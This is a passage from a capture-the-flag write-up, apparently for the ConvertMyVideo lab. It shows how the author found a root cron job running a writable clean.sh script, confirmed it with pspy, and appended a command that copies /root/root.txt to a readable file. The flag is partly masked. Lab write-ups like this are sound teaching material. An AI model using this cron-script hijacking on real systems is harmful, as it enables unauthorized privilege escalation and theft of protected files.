 After some enumeration , I found a wierd script called `clean.sh` in `/var/www/html/tmp/`. It contained the following lines -

```bash
www-data@dmv:/var/www/html/tmp$ cat clean.sh    
cat clean.sh
rm -rf downloads
```
## pspy

So my guess is that it is being run by cron in the background once in few mins.Lets conform that using `pspy`

![pspy](../../assets/img/posts/Convertmyvideo/pspy.png)

`clean.sh` script is indeed run by cron once in 2 mins.

## root.txt 🚩

So I added the following to the clean.sh script to retrieve the root flag !

```bash
www-data@dmv:/var/www/html/tmp$ echo "cat /root/root.txt > /home/flag.txt" >>clean.sh
```
```bash
www-data@dmv:/var/www/html/tmp$ cat clean.sh
cat clean.sh
rm -rf downloads
cat /root/root.txt > /home/flag.txt
```

After few mins, we have a file called `flag.txt` in `/home` directory which contains the flag.

```bash
QN 4- ❓
What is the root flag? - flag{d9b36*********399c5e94a}
```













